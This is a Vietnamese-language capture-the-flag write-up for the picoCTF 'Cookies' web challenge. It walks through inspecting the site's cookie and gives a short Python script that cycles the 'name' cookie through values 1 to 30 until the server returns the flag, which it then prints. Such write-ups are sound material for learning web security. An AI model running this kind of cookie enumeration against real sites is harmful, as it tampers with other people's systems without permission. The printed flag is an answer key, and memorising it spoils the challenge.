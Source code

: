 # WriteUp Cookies

#### *pico CTF*
---

> <font size=5px> Yêu cầu của thử thách như sau
![](img/6.PNG)

>Truy cập vào web theo đường link được cung cấp.
![](img/1.PNG)

> Kiểm tra thông tin cookie của trang web
![](img/2.PNG)

> Nhập thử từ được  gợi ý trong placeholder *snickerdoodle*, thu được phản hồi sau:
![](img/7.PNG)

> Kiểm tra thông tin cookie của trang web
![](img/8.PNG)

> Có thể thấy khi nhập đúng tên loại bánh thì cookie sẽ chuyển sang giá trị khác (chuyển từ -1 sang 0)
>Vì vậy, ta sẽ viết một chương trình để gửi request liên tục đến server. Với mỗi request thì cookie sẽ được thay đổi.

>Code
```python
import requests
from requests import cookies

domain = 'http://mercury.picoctf.net:54219/check'

for i in range(1, 31):
    cookie = {'name':str(i)}
    req = requests.get(domain, cookies=cookie)
    data = req.text
    if 'picoCTF' in data:
        print(data)
```
> Mình sẽ quét thử trong khoảng ***[1;30]*** để tìm flag, nếu không tìm được sẽ chuyển sang khoảng khác. Sau một thời gian chạy, mình thu được:
![](img/5.PNG)

>Flag: ***picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}***
### ***Nộp thôi!***